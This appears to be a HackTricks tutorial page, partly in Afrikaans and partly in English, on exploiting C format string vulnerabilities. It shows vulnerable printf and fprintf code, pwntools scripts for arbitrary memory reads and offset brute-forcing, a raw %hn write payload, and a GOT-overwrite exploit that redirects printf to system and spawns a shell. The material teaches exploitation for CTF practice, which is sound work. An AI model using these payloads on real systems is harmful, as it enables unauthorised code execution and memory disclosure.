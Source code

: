# Format Strings

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

In C **`printf`** is 'n funksie wat gebruik kan word om **te druk** 'n string. Die **eerste parameter** wat hierdie funksie verwag is die **rou teks met die formateerders**. Die **volgende parameters** wat verwag word is die **waardes** om die **formateerders** van die rou teks te **vervang**.

Ander kwesbare funksies is **`sprintf()`** en **`fprintf()`**.

Die kwesbaarheid verskyn wanneer 'n **aanvaller teks as die eerste argument** vir hierdie funksie gebruik word. Die aanvaller sal in staat wees om 'n **spesiale invoer te vervaardig wat** die **printf formaat** string vermoëns misbruik om te lees en **skryf enige data in enige adres (leesbaar/skryfbaar)**. Op hierdie manier in staat om **arbitraire kode uit te voer**.

#### Formateerders:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Voorbeelde:**

* Kwetsbare voorbeeld:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normale Gebruik:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Met ontbrekende argumente:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf kwesbaar:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Toegang tot Pointers**

Die formaat **`%<n>$x`**, waar `n` 'n getal is, laat toe om aan printf aan te dui om die n parameter (van die stapel) te kies. So as jy die 4de parameter van die stapel met printf wil lees, kan jy doen:
```c
printf("%x %x %x %x")
```
en jy sou van die eerste tot die vierde parameter lees.

Of jy kan doen:
```c
printf("%4$x")
```
and lees direk die vierde.

Let op dat die aanvaller die `printf` **parameter beheer, wat basies beteken dat** sy invoer in die stapel gaan wees wanneer `printf` aangeroep word, wat beteken dat hy spesifieke geheue adresse in die stapel kan skryf.

{% hint style="danger" %}
'n Aanvaller wat hierdie invoer beheer, sal in staat wees om **arbitraire adresse in die stapel by te voeg en `printf` te laat toegang tot hulle**. In die volgende afdeling sal verduidelik word hoe om hierdie gedrag te gebruik.
{% endhint %}

## **Arbitraire Lees**

Dit is moontlik om die formatter **`%n$s`** te gebruik om **`printf`** die **adres** wat in die **n posisie** geleë is, te laat kry, wat volg en **dit asof dit 'n string is te druk** (druk totdat 'n 0x00 gevind word). So as die basisadres van die binêre **`0x8048000`** is, en ons weet dat die gebruiker se invoer in die 4de posisie in die stapel begin, is dit moontlik om die begin van die binêre te druk met:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Let daarop dat jy nie die adres 0x8048000 aan die begin van die invoer kan plaas nie, omdat die string in 0x00 aan die einde van daardie adres sal wees.
{% endhint %}

### Vind offset

Om die offset na jou invoer te vind, kan jy 4 of 8 bytes (`0x41414141`) stuur, gevolg deur **`%1$x`** en **verhoog** die waarde totdat jy die `A's` ontvang.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Hoe nuttig

Arbitraire lees kan nuttig wees om:

* **Dump** die **binarie** uit geheue
* **Toegang tot spesifieke dele van geheue waar sensitiewe** **inligting** gestoor word (soos kanaries, versleuteling sleutels of persoonlike wagwoorde soos in hierdie [**CTF-uitdaging**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Arbitraire Skrywe**

Die formatter **`%<num>$n`** **skryf** die **aantal geskryfde bytes** in die **aangegeven adres** in die \<num> parameter in die stapel. As 'n aanvaller soveel karakters kan skryf as wat hy wil met printf, sal hy in staat wees om **`%<num>$n`** 'n arbitraire getal in 'n arbitraire adres te laat skryf.

Gelukkig, om die getal 9999 te skryf, is dit nie nodig om 9999 "A"s by die invoer te voeg nie; om dit te doen, is dit moontlik om die formatter **`%.<num-write>%<num>$n`** te gebruik om die getal **`<num-write>`** in die **adres aangedui deur die `num` posisie** te skryf.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
However, note that usually in order to write an address such as `0x08049724` (which is a HUGE number to write at once), **it's used `$hn`** instead of `$n`. This allows to **only write 2 Bytes**. Therefore this operation is done twice, one for the highest 2B of the address and another time for the lowest ones.

Therefore, this vulnerability allows to **write anything in any address (arbitrary write).**

In this example, the goal is going to be to **overwrite** the **address** of a **function** in the **GOT** table that is going to be called later. Although this could abuse other arbitrary write to exec techniques:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

We are going to **overwrite** a **function** that **receives** its **arguments** from the **user** and **point** it to the **`system`** **function**.\
As mentioned, to write the address, usually 2 steps are needed: You **first writes 2Bytes** of the address and then the other 2. To do so **`$hn`** is used.

* **HOB** is called to the 2 higher bytes of the address
* **LOB** is called to the 2 lower bytes of the address

Then, because of how format string works you need to **write first the smallest** of \[HOB, LOB] and then the other one.

If HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

If HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools-sjabloon

Jy kan 'n **sjabloon** vind om 'n exploit voor te berei vir hierdie soort kwesbaarheid in:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Of hierdie basiese voorbeeld van [**hier**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Formaat Strings na BOF

Dit is moontlik om die skryf aksies van 'n formaat string kwesbaarheid te misbruik om **in adresse van die stapel te skryf** en 'n **buffer overflow** tipe kwesbaarheid te ontgin.

## Ander Voorbeelde & Verwysings

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, geen relro, geen canary, nx, geen pie, basiese gebruik van formaat strings om die vlag van die stapel te lek (geen behoefte om die uitvoeringsvloei te verander)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, geen canary, nx, geen pie, formaat string om die adres `fflush` met die win funksie (ret2win) te oorskryf
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, geen canary, nx, geen pie, formaat string om 'n adres binne main in `.fini_array` te skryf (sodat die vloei een keer meer terugloop) en die adres na `system` in die GOT tabel te skryf wat na `strlen` wys. Wanneer die vloei terug na main gaan, word `strlen` uitgevoer met gebruikersinvoer en wys na `system`, dit sal die oorgedraagde opdragte uitvoer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

